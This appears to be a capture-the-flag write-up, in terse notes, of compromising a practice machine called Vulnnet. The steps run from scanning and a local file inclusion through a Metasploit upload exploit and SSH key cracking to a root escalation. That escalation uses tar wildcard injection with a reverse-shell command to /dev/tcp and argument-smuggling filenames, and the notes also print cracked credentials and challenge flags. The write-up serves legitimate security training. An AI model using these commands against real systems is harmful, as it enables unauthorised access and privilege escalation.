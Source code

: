 # Vulnnet

cmd: ``` sudo nmap -sC -sV -oN nmap/initial 10.10.204.237 -vv ```

- 22
- 80 apache

- login page
	- no sqli 
	- no user enum


cmd: ``` gobuster dir -u http://10.10.204.237 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php,html,txt -t 80```

- /js
	- 2 strange scripts
	- both heavily obfuscated

	- script1 
		- t.p = "http://broadcast.vulnnet.thm", t(t.s = 0);
	- script 2
		-  n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0);

- /etc/hosts
	- 10.10.204.237 broadcast.vulnnet.thm vulnnet.thm

- broadcast.vulnnet.thm
	- needs creds - nothing to do


cmd: ```ffuf -u "http://vulnnet.thm/index.php?referer=FUZZ" -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -t 80 -fs 5829```

- Can include files - different size for entries

```bash
LICENSE.txt             [Status: 200, Size: 6938, Words: 1896, Lines: 167]
login.html              [Status: 200, Size: 8308, Words: 2321, Lines: 211]
index.php               [Status: 200, Size: 0, Words: 1, Lines: 1]
```

- LFI
  - Relative path ../../../../../etc/passwd  -> does not work
  - Absolute path /etc/passwd 			   -> works!

- From passwd - 2 users
	root:x:0:0:root:/root:/bin/bash
	server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
	
- Apache2 config (/etc/apache2/.htpasswd) 
	- developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0:9972761drmfsls


- Using creds on broadcast.vulnnet.thm
	- clipbucket -> version 4.0
	- Entry on searchsploit does not seem to work
	- Metasploit works (exploit: multi/http/clipbucket_fileupload_exec)
		- set httpusername developers
		- set httppassword 9972761drmfsls
		- set vhost broadcast.vulnnet.thm


- Got shell
	- It gets uploaded to /actions/CB_BEATS_UPLOAD_DIR ... maybe an authenticated fuzzing would find /actions (has directory listing enabled)
	- cmd: ```whoami && id```
	
	```bash
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	```

- Getting mysql creds
	- Check clipbucket github -> includes -> dbconnet.sample.php
	- On the machine: /var/www/html/includes/dbconnect.php
		- Database: VulnNet
		- Username: admin
		- Password: VulnNetAdminPass0990
	- Nothing interesting there

- Enumerating (Manual)
	- Found backup -> /var/backups/ssh-backup.tar.gz
		- -rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
		- extracts just an id_rsa file with a RSA key
		- needs password

- Enumerating (automated - linpeas)
	- USBcreator - vulnerable -> well, not really
	- Cronjob - */2   * * * *   root    /var/opt/backupsrv.sh
	

- Cracking private key's password
	- ssh2john id_rsa > hash.txt 
	- john --wordlist=rockyou.txt hash.txt
	- creds: id_rsa:oneTWO3gOyac


- Got it
	- cmd: ```whoami && id```
	```bash
	server-management
	uid=1000(server-management) gid=1000(server-management) groups=1000(server-management)
	```
	- cmd: ```cat user.txt```
	- **Flag:** THM{907e420d979d8e2992f3d7e16bee1e8b}

- Enumerating (manual)
	- ~/Documents - 2 pdfs - will rename to remove spaces
		- Daily job Report Format.pdf 
		- Employee Search Progress Report .pdf
	- Unusual process
		- /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant  # why does it need wi-fi?!?!

- Exploiting
	- /var/opt/backupserv.sh tars with wildcard in /home/server-management/Documents
	- commands to exploit:
		1. cd ~/Documents
		2. touch -- --checkpoint=1
		3. echo '/bin/bash -c "bash -i >& /dev/tcp/10.9.128.84/1414 0>&1"' > waza.sh
		4. touch -- "--checkpoint-action=exec=sh waza.sh"

- Done
	- cmd: ```cat /root/root.txt```
	- **Flag:** THM{220b671dd8adc301b34c2738ee8295ba}



